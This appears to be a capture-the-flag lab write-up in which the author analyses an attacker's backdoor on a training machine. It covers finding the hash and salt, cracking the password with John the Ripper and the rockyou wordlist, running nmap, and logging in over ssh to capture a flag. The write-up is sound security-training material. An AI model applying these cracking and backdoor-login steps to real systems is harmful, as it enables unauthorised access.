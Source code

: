 * Looking back to the backdoor in the ssh log, the attacker executes it with:
	* `./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
* `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` is the hash the attacker used

* One of the function signatures includes a salt:
	* `func verifyPass(hash, salt, password string) bool`
	* The bottom of the code has a call to this function, which shows us that the hardcoded salt is `1c362db832f3f864c8c2fe05f2002a05`

* I used [this](https://www.tunnelsup.com/hash-analyzer/) website to identify the hash as SHA512
	* We can then crack it with `john attacker.hash --wordlist=/usr/share/wordlists/rockyou.txt --format='dynamic=sha512($p.$s)'`
	* This gets the password `november16`

# Oher
* When we can look at the downloaded objects to see the message the attacker left:
	* `cat index.html` shows us the message: `H4ck3d by CooctusClan`

# Recon
### nmap
`nmap -sC -sV 10.10.67.208 -oN init.nmap`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-08 21:08 EDT
Nmap scan report for 10.10.67.208
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.10 seconds
```

### ssh
* We can ssh into the machine with `ssh 10.10.67.208 -p 2222` with the password `november16`
	* `cat /home/james/user.txt` gives the user flag: `thm{d119b4fa8c497ddb0525f7ad200e6567}`
